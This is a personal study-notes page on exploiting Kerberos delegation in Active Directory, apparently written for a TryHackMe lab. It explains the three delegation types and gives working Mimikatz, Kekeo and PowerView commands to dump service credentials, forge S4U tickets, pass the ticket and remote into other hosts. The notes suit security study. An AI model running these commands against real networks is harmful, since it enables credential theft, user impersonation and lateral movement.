 # Active Directory Kerberos Delegation Exploitation

## Introduction

For [[Attacking-Kerberos]] and [[Active-Directory-Kerberos-Authentication-Defined]]

Kerberos Delegation can be used to is to enable an application to access resources hosted on a different server, without Kerberos Delegation we need a AD Service Account and provide it directit or have in innately have direct access to the target resource. With delegation the service account can be delegated to the target resource and interact with it on the behalf of the user able to delegate to the exploited Kerberos delegation victim. This process is visually represented below:

1. Current Context ---> Access ---> Victim x-x-x-x-No Access-x-x-x-x Target Resource
2. Current Context ---> Kerberos Delegation ---> Victim ---> Access Via Delegated to ---> Target Resource

## Constrained Vs Unconstrained

Unconstrained delegation is the original implementation that Microsoft later superceded with Constrained Delegation in 2003. 

- **Unconstrained**

[Unconstrain Delegation](https://medium.com/@riccardo.ancarani94/exploiting-unconstrained-delegation-a81eabbd6976)  provides no limits to the delegation, if a user with the `"TRUSTED_FOR_DELEGATION"` flag set authenticates to a host with Unconstrained Delegation configured, a ticket-granting ticket (TGT) for that user account is generated and stored in memory. Therefore we could attempt to force a privileged account to authenticate to the host, which would allow them to intercept the generated TGT and impersonate the privileged service. 
[article](https://medium.com/@riccardo.ancarani94/exploiting-unconstrained-delegation-a81eabbd6976)

- **Constrained**

To make this less over-powered and remediate security failings of Unconstrained Delegation, Microsoft introduced Constrained Delegation in 2003. Constrained Delegation restricts what services an account can be delegated to, limiting exposure if an account is compromised. These are service, HOST for accounts, CIFS - Common Internet File System-based or based on one of allowed [[Network-Protocols]] within the AD Domain. With [[PowerView-Cheatsheet]] remember to `import-module`...

```powershell
Get-NetUser -TrustedToAuth
# Look at msds-allowedtodelegateto 
```

Dependent on your current context, Domain layout and attack path objectives.  Understanding the connective mechanism between machines in AD is key as the [[Network-Protocols]]. Usage of either legitimate Windows variants of or the any of the [[Impacket-Cheatsheet]] relevant, like for WinRM (but not Impacket) [[evil-winrm-Cheatsheet]]. With Administrative Access [[Mimikatz-Cheatsheet]] to harvest credentials and tokens; [[Kekeo-Cheatsheet]] to generate tickets.

Get a service username and password with Mimkatz
```powershell
# mimikatz.exe
token::elevate
!+ # LSA protection bypass!
lsdump::secrets
```

Generate TGT tickets with Kekeo -- [[Kekeo-Cheatsheet]]
**FOR SOME SERVICE REQUIRE MULTIPLE TICKETS**

Method | Protocols
--- | ---
PS Remoting | http wsman

```powershell
# kekeo.exe
tgt::ask /user:<svc-user> /domain:<domain> /password:<password>
# Successful output will have:
> Ticket in file 'tgt_filename'
# Do for each $PROTOCOL required!
tgs::s4u /tgt:'tgt_filename' /user:<impersonation-target> /service:$PROTOCOL/<service>
# Successful output will have:
> Ticket in file 'TGS_...'
# Double check which remoting services need which protocol and forge for each service
```

Import tickets with Mimikatz
```powershell
# mimikatz.exe
privilege::debug
!+ # LSA protection bypass!
# Use TGS file(S) from kekeo
kerberos::ptt $TGS_Filename_beware_of_clipboard_newlines_or_carraige_return
# Successful output:
* File:
'TGS_*....'
OK
```

The Powershell remote into the next server/workstation:
```powershell
klist # Show imported Tickets
New-PSSession -ComputerName <target>.<domain>
Enter-PSSession -ComputerName <target>.<domain>
```


- **Resource-Based Contrained Delegation**

Introduced by Microsoft in 2012, Resource-Based Constrained Delegation (RBCD) once again provided additional restrictions on Kerberos Delegation for security. The service now specifies which objects can delegate to it allowing the service owner to control who can access it. If we have permissions to configure RBCD for a service we have ability to set `msDS-AllowedToActOnBehalfOfOtherIdentity`. populating it with currently control account then we can generate a TGT for the account we control, which will allow us to interact with this service see this article for more [Resource-based Constrained Delegation Abuse](https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/).


## References

[THM Room Exploiting AD](https://tryhackme.com/room/exploitingad)
[Unconstrain Delegation Medium Blog](https://medium.com/@riccardo.ancarani94/exploiting-unconstrained-delegation-a81eabbd6976)
[Resource-based Constrained Delegation Abuse](https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/)